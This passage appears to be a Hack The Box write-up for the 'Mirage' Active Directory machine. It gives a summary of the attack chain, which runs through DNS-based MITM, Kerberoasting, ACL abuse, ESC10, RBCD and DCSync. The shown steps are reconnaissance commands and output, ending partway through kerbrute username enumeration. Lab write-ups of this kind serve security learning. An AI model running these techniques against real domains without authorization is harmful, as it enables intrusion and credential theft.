

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Kerberos Realm Configuration](#Kerberos-Realm-Configuration)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Enumeration of Port 139/TCP](#Enumeration-of-Port-139TCP)
    - [Username Enumeration](#Username-Enumeration)
- [NATS Server](#NATS-Server)
    - [Banner Grabbing](#Banner-Grabbing)
- [Man-In-The-Middle (MITM) Attack](#Man-In-The-Middle-MITM-Attack)
- [NATS Server Enumeration](#NATS-Server-Enumeration)
- [Requesting a Kerberos Ticket as david.jjackson](#Requesting-a-Kerberos-Ticket-as-davidjjackson)
- [Enumeration of Port 445/TCP (Authenticated)](#Enumeration-of-Port-445TCP-Authenticated)
- [RID Brute Forcing](#RID-Brute-Forcing)
- [Active Directory Certificate Services (AD CS) Check](#Active-Directory-Certificate-Services-AD-CS-Check)
- [Active Directory Configuration Dump](#Active-Directory-Configuration-Dump)
- [Foothold](#Foothold)
    - [Kerberoasting](#Kerberoasting)
    - [Cracking the Kerberos Ticket using John the Ripper](#Cracking-the-Kerberos-Ticket-using-John-the-Ripper)
- [user.txt](#usertxt)
- [Enumeration (nathan.aadam)](#Enumeration-nathanaadam)
- [Privilege Escalation to mark.bbond](#Privilege-Escalation-to-markbbond)
    - [Winlogon Credentials](#Winlogon-Credentials)
- [Enumeration (mark.bbond)](#Enumeration-markbbond)
- [Privilege Escalation to javier.mmarshall](#Privilege-Escalation-to-javiermmarshall)
    - [Access Control Entry (ACE) ForceChangePassword Abuse](#Access-Control-Entry-ACE-ForceChangePassword-Abuse)
- [Privilege Escalation to Mirage-Service](#Privilege-Escalation-to-Mirage-Service)
    - [Access Control Entry (ACE) ReadGMSAPassword Abuse](#Access-Control-Entry-ACE-ReadGMSAPassword-Abuse)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Active Directory Certificate Services (AD CS) Abuse](#Active-Directory-Certificate-Services-AD-CS-Abuse)
        - [ESC10: Weak Certificate Mapping for Schannel Authentication](#ESC10-Weak-Certificate-Mapping-for-Schannel-Authentication)
    - [Resource Based Constrained Delegation (RBCD)](#Resource-Based-Constrained-Delegation-RBCD)
- [root.txt](#roottxt)

## Summary

The box `Mirage` starts with a exposed `SMB Share` that contains `reports` which reveal a lot of sensitive information like an additional `VHost` entry, `Usernames` which shows a specific `Schema`, details about missing `DNS` configuration and `Security Advisories`. The `Username Schema` leads to one more `Username` which can be verified using `Kerbrute`.

On the `Subdomain` a running instance of `NATS Server` can be found. By adding a `DNS A Record` the the `DNS Server` pointing to the local machine some `Credentials` can be intercepted by using a `Man-In-The-Middle (MITM)` attack.

Those `Credentials` allow `Authentication` against the `NATS Server` and lead to `Exfiltration` of the `auth_log` which contains the first `Credentials` to `Authenticate` against the `Domain`.

To gain `Foothold` on the box it is necessary to use those `Credentials` to perform a `Kerberoast Attack` on a user that allows login via `WinRM` and which holds the `user.txt`.

The next step is to find some `credentials` within `Winlogon` for the second `Privilege Escalation`.

After that the abuse of the `Access Control Entry (ACE)` of `ForceChangePassword` allows an even further `Escalation` of `Privileges`.

Now another `ACE` is used which is `ReadGMSAPassword` to switch to a user that is needed to make use of `Active Directory Certificate Services (AD CS)`.

To gain `NT AUTHORITY\SYSTEM` on the box the first step is to exploit `ESC10` aka `Weak Certificate Mapping for Schannel Authentication` into an `LDAP Shell`. From there on granting `Resource Based Constrained Delegation (RBCD)` rights to the latest user allows to use `S4USelf`/`S4UProxy` to `impersonate` the `Domain Controller` itself and finally to `DCSync` which ultimately leads to a `shell` as `Administrator` and to the `root.txt`.

## Reconnaissance

### Port Scanning

The initial `port scan` using `Nmap` showed a typical output for a `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.182.181
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-19 21:02 CEST
Nmap scan report for 10.129.182.181
Host is up (0.035s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-20 02:02:13Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-07-20T02:02:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.62 seconds
```

Based on the output from `Nmap` we added `mirage.htb` as well as `dc01.mirage.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.182.181  mirage.htb
10.129.182.181  dc01.mirage.htb
```

### Domain Enumeration

We already started a quick check on the `Domain` while `Nmap` was running using `enum4linux-ng` which indicated that `NTLM Authentication` would be potentially disabled and therefore we had to use `Kerberos Authentication` during the box.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.182.181
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.182.181
[*] Username ......... ''
[*] Random Username .. 'jlqwdmvd'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.182.181    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.182.181    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: mirage.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.182.181    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.182.181    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.182.181    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[-] Could not enumerate domain information via unauthenticated SMB
[*] Enumerating via unauthenticated SMB session on 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    RPC Session Check on 10.129.182.181    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_NOT_SUPPORTED
[*] Check for random user
[-] Could not establish random user session: STATUS_NOT_SUPPORTED
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 10.129.182.181    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: unknown                                                                                                                                                                                                                                 
OS version: not supported                                                                                                                                                                                                                   
OS release: null                                                                                                                                                                                                                            
OS build: null                                                                                                                                                                                                                              
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 8.94 seconds
```

### Enumeration of Port 445/TCP

A sneak peak at port `445/TCP` made us sure that we had to rely on `Kerberos Authentication` only.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec smb 10.129.182.181 -u '' -p '' --shares
SMB         10.129.182.181  445    10.129.182.181   [*]  x64 (name:10.129.182.181) (domain:10.129.182.181) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.182.181  445    10.129.182.181   [-] 10.129.182.181\: STATUS_NOT_SUPPORTED 
SMB         10.129.182.181  445    10.129.182.181   [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

### Kerberos Realm Configuration

To avoid false negative output later we quickly configured the `Kerberos Realm` within `/etc/krb5.conf`.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/krb5.conf
[libdefaults]
    default_realm = MIRAGE.HTB
    dns_lookup_realm = true
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true

[realms]
    MIRAGE.HTB = {
        kdc = dc01.mirage.htb
        admin_server = dc01.mirage.htb
    }

[domain_realm]
    .mirage.htb = MIRAGE.HTB
    mirage.htb = MIRAGE.HTB
```

### Time and Date Synchronization

Then with some foresight we synchronized our `Time and Date` with the `Domain Controller` to avoid the typical `CLOCK_SKEW_TOO_GREAT` error message.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.182.181
```

### Enumeration of Port 139/TCP

Since this box didn't offered us any `credentials` like in an `Assume Breach Scenario` we used `showmount` on port `139/TCP` and found a `SMB Share` called `MirageReports`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo showmount -e 10.129.182.181
Export list for 10.129.182.181:
/MirageReports (everyone)
```

We `mounted` the `share` locally and checked it's content.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo mount -t nfs 10.129.182.181:MirageReports /mnt/
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo ls /mnt/
Incident_Report_Missing_DNS_Record_nats-svc.pdf  Mirage_Authentication_Hardening_Report.pdf
```

We copied both `PDF Files` over to take a closer look at them.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo cp /mnt/Incident_Report_Missing_DNS_Record_nats-svc.pdf .
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo cp /mnt/Mirage_Authentication_Hardening_Report.pdf .
```

Our first action was to look for some `usernames` using `Exiftool`. Unfortunately there was nothing useful besides the name of one of the box creators.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ exiftool Incident_Report_Missing_DNS_Record_nats-svc.pdf 
ExifTool Version Number         : 13.25
File Name                       : Incident_Report_Missing_DNS_Record_nats-svc.pdf
Directory                       : .
File Size                       : 8.5 MB
File Modification Date/Time     : 2025:07:19 21:09:31+02:00
File Access Date/Time           : 2025:07:19 21:09:30+02:00
File Inode Change Date/Time     : 2025:07:19 21:10:21+02:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 4
Tagged PDF                      : Yes
Language                        : en-PH
Title                           : Investigative Reporting Outline Doc in Black Grey Teal Modern Type Style
Creator                         : Canva
Producer                        : Canva
Create Date                     : 2025:05:20 15:07:45+00:00
Modify Date                     : 2025:05:20 15:07:45+00:00
Keywords                        : DAGn7vmxkJQ, BAFmAHycaxU, 0
Author                          : Mostafa Toumi (EmSec)
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ exiftool Mirage_Authentication_Hardening_Report.pdf
ExifTool Version Number         : 13.25
File Name                       : Mirage_Authentication_Hardening_Report.pdf
Directory                       : .
File Size                       : 9.4 MB
File Modification Date/Time     : 2025:07:19 21:09:50+02:00
File Access Date/Time           : 2025:07:19 21:09:50+02:00
File Inode Change Date/Time     : 2025:07:19 21:10:21+02:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 5
Tagged PDF                      : Yes
Language                        : en-PH
Title                           : Copy of Investigative Reporting Outline Doc in Black Grey Teal Modern Type Style
Creator                         : Canva
Producer                        : Canva
Create Date                     : 2025:05:26 21:36:48+00:00
Modify Date                     : 2025:05:26 21:36:48+00:00
Keywords                        : DAGoYb7hCCM, BAFmAHycaxU, 0
Author                          : Mostafa Toumi (EmSec)
```

Next we started reading the `Incident_Report_Missing_DNS_Record_nats-svc.pdf` document which revealed some very useful information.



First of all we found another `VHost` entry called `nats-svc.mirage.htb` which we added to our `/etc/hosts` file too.



```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.182.181  mirage.htb
10.129.182.181  dc01.mirage.htb
10.129.182.181  nats-svc.mirage.htb
```

Then we found a `username` on one of the `screenshots` in the `Research / Findings` section.



| Username    |
| ----------- |
| Dev_Account |

And directly after the first one we found another!



| Username      |
| ------------- |
| Dev_Account_A |

The `Security Considerations` part gave us some idea about a potential attack vector abusing `Domain Name System (DNS)` to point to a `Roque NATS Server`.



After finishing the first report we moved on with the `Mirage_Authentication_Hardening_Report.pdf` document.



Not we got it finally printed into a document that we had to use `Kerberos Authentication`.



At the bottom we found another `potential username` which later we figured out, wasn't one.



| Username    |
| ----------- |
| ad-security |

### Username Enumeration

We used `Kerbrute` to validate the `usernames` we found but unfortunately only `Dev_Account_A` was a valid one.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d mirage.htb --dc dc01.mirage.htb usernames.txt            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/19/25 - Ronnie Flathers @ropnop

2025/07/19 21:41:47 >  Using KDC(s):
2025/07/19 21:41:47 >   dc01.mirage.htb:88

2025/07/19 21:41:47 >  [+] VALID USERNAME:       Dev_Account_A@mirage.htb
2025/07/19 21:41:47 >  Done! Tested 3 usernames (1 valid) in 0.081 seconds
```

Since the `appendix` indicated that there could be more than just one account, we added a `B` and `C` to a file and validated them as well.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ cat usernames.txt 
ad-security
Dev_Account
Dev_Account_A
Dev_Account_B
Dev_Account_C
```

And indeed `Dev_Account_B` was also valid!

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
